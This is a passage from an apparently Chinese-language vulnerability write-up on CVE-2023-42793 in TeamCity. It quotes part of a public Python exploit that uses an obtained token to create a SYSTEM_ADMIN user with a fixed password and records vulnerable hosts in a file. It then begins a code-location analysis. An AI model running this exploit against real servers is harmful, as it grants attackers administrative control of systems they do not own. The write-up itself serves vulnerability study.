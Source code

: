 ```python
            if response.status_code == 200:
                response_text = response.text
                root = ET.fromstring(response_text)
                value = root.get('value')
                if value.startswith("eyJ0eXAiOiAiVENWMiJ9"):
                    self.create_user(value)
        except Exception as err:
            pass

    def create_user(self, token):
        uname = self.username()
        headers = {
            "User-Agent": "Mozilla/5.0 (https://github.com/H454NSec/CVE-2023-42793) Gecko/20100101 Firefox/113.0",
            "Accept": "*/*",
            "Authorization": f"Bearer {token}",
            "Content-Type": "application/json",
            }
        creds = {
            "email": "",
            "username": uname,
            "password": "@H454NSec",
            "roles": {
                "role": [{
                        "roleId": "SYSTEM_ADMIN",
                        "scope": "g"
                    }]
            }
        }
        try:
            response = self.session.post(f"{self.url}/app/rest/users", headers=headers, json=creds, timeout=10)
            if response.status_code == 200:
                print(f"{Green}[+] {Yellow}{self.url}/login.html {Green}[{uname}:@H454NSec]{Color_Off}")
                with open("vulnerable.txt", "a") as o:
                    o.write(f"[{uname}:@H454NSec] {self.url}\n")
        except Exception as err:
            pass
```

三、漏洞分析
------

### 3.1 找漏洞代码位置

获取代码：将上面下载的两个exe文件直接使用解压工具解压，就可以得到安装后的代码文件夹

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-62e8db93bb02414ff763b4e121debc1732750c9a.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-309916347ae3d8215fde4f0973c1ca35585b7782.png)
